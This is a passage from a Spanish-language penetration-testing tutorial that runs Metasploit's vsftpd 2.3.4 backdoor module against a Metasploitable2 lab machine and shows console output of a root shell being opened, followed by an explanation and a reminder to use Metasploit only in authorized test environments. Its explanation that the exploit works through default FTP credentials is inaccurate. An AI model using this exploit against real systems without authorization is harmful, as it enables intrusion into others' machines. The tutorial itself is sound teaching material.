 El parámetro RPORT ya tiene el valor 21, así que no tenemos que usar _set rport 21_ para ello.

5. Ahora ya tenemos todo listo para ejecutar el exploit, usando el comando _exploit_ o _run_:

```sh
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run
[*] 10.0.2.5:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.0.2.5:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit
[*] 10.0.2.5:21 - The port used by the backdoor bind listener is already open
[+] 10.0.2.5:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (10.0.2.15:37877 -> 10.0.2.5:6200) at 2025-06-10 17:11:59 -0400


```

> Nota: Intenté con _run_, más el exploit no abrió una sesión de terminal (shell). Cuando ejecute el exploit con el otro comando (_exploit_), ya se creó la sesión.

Como vimos en los conceptos del principio, un _exploit es un software que se aprovecha de una vulnerabilidad, obteniendo acceso, permisos y privilegios para tener el control del host - víctima_, y en la salida:

- Los logs (mensajes) son del servidor FTP de Metasploitable2, _no de tu Kali Linux_.
- El exploit se aprovecha de la vulnerabilidad, entrando por las credenciales por defecto del servidor FTP.
- También el exploit se cambió al usuario _root_.
- El exploit "finaliza" con un prompt listo para operar Metasploitable2 como el usuario _root_ (a pesar de que no ponga un prompt). Puedes usar los comandos aprendidos como _ls, id, pwd, whoami, ifconfig_. Tenemos el control del host objetivo.

Puedes ejecutar el comando _exit_ para cerrar la sesión creada por el exploit. Tú solamente estableciste el host al exploit, y no estuviste ejecutando los comandos para conectar al servidor FTP de vsftpd 2.3.4, escribir las credenciales y cambiar al usuario root. Estas son algunas de las ventajas de los exploit en lugar de hacerlo todo manual.

Cabe mencionar que se debe de hacer un **uso responsable de Metasploit**, recordando que debe emplearse solo en entornos de prueba o con autorización.
